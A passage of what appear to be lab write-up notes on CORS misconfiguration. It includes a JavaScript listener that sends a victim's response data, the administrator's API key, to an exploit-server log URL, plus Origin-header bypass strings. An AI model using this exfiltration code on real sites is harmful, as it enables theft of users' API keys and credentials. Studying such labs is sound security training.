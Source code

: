 	function reqListener() {
	    location='//exploit-0a6500ab0499f17080cb0247015a00ab.exploit-server.net/log?key='+this.responseText; 
	};
	```
	
	Put this in the exploit server
	
	![](../../../assets/screenshots/cors/Pasted%20image%2020250801141839.png)
	
	After clicking "Deliver exploit to victim", we can check the access log and find the administrator's API key.
	
	![](../../../assets/screenshots/cors/Pasted%20image%2020250801141937.png)
	
	After submitting the admin's API key we finish the lab. 

## Parsing Errors

Be sure to check for errors in `Origin` header parsing.

For example, suppose an application grants access to all domains ending in:

`normal-website.com`

Maybe try:

- hackersnormal-website.com
- normal-website.com.evil-user.net
